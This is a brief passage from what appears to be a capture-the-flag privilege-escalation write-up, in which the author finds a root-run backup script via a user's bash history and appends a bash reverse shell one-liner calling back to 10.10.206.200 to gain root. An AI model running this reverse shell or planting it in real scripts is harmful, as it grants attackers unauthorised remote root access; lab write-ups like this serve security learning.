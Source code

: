 ![admin](Screenshots/admin_checks.png)

In gyles .bash_history references to a chmod 770 admin_stuff as directory in /opt/. 
It contains a script.sh; the variables are root owned.

![script](Screenshots/script.png

tried adding a reverse shell into main_backup.sh

```
bash -i >& /dev/tcp/10.10.206.200/1234 0>&1
```

![rooted](Screenshots/rooted.png)






